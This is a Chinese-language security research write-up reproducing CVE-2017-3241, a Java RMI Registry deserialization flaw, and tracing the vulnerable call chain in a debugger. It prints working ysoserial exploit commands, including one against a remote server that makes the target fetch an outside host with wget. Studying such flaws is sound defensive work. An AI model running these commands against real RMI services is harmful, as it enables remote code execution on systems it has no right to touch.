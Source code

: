 ### 漏洞PoC

直接使用上一个步骤中baseUsage.server.Server的代码进行本地环境复现，使用ysoserial中的利用工具，命令如下，成功复现。

```
"C:\Program Files\Java\jdk-14.0.1\bin\java.exe" -cp ysoserial-0.0.5.jar ysoserial.exploit.RMIRegistryExploit 127.0.0.1 1099 CommonsCollections1 "calc.exe"

注意点：
1、执行如上命令的java版本最好和运行RMI服务的Java版本一致，这个case中使用的都是JDK1.7.0
2、如下截图是本地测试的截图，RMI Server和执行攻击的Payload都是在同一个主机上运行的，不符合实际攻击场景，只是为了方便截图。
3、同样的JDK环境，远程环境也可以成功触发。
```

![image.png](img/CVE-2017-3241 Java RMI Registry.bind()反序列化漏洞/1597049170574-74e7d683-517e-491e-8f9c-b1032a07319d.png)



远程服务器成功利用案例：

```
D:\ser>java -cp ysoserial-0.0.5.jar ysoserial.exploit.RMIRegistryExploit 10.203.20.57 1099 CommonsCollections1 "wget rmiyso.bit.0y0.link"

本地的Java环境：
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)

目标服务器的Java环境：
java version "1.8.0_25"
Java(TM) SE Runtime Environment (build 1.8.0_25-b17)
Java HotSpot(TM) 64-Bit Server VM (build 25.25-b02, mixed mode)
```

![image.png](img/CVE-2017-3241 Java RMI Registry.bind()反序列化漏洞/1597048219891-768d6b76-2b1e-4a13-b14a-91afe84d6ddf.png)

### 定位漏洞代码

还是一样的套路，在java.lang.Runtime#exec(java.lang.String)处下断点，并以debug启动baseUsage.server.Server。然后运行

```
D:\github>"C:\Program Files\Java\jdk1.7.0\bin\java.exe" -cp D:\ser\ysoserial-0.0.5.jar ysoserial.exploit.RMIRegistryExploit 100.119.197.111 1099 CommonsCollections1 "calc.exe"
```

获取到如下调用链：

```
exec(String):345, Runtime (java.lang)
invoke0(Method, Object, Object[]):-1, NativeMethodAccessorImpl (sun.reflect)
invoke(Object, Object[]):57, NativeMethodAccessorImpl (sun.reflect)
invoke(Object, Object[]):43, DelegatingMethodAccessorImpl (sun.reflect)
invoke(Object, Object[]):601, Method (java.lang.reflect)
transform(Object):125, InvokerTransformer (org.apache.commons.collections.functors)
transform(Object):122, ChainedTransformer (org.apache.commons.collections.functors)
get(Object):151, LazyMap (org.apache.commons.collections.map)
invoke(Object, Method, Object[]):68, AnnotationInvocationHandler (sun.reflect.annotation)
entrySet():-1, $Proxy2
readObject(ObjectInputStream):345, AnnotationInvocationHandler (sun.reflect.annotation)
invoke0(Method, Object, Object[]):-1, NativeMethodAccessorImpl (sun.reflect)
invoke(Object, Object[]):57, NativeMethodAccessorImpl (sun.reflect)
invoke(Object, Object[]):43, DelegatingMethodAccessorImpl (sun.reflect)
invoke(Object, Object[]):601, Method (java.lang.reflect)
invokeReadObject(Object, ObjectInputStream):991, ObjectStreamClass (java.io)
readSerialData(Object, ObjectStreamClass):1866, ObjectInputStream (java.io)
readOrdinaryObject(boolean):1771, ObjectInputStream (java.io)
readObject0(boolean):1347, ObjectInputStream (java.io)
```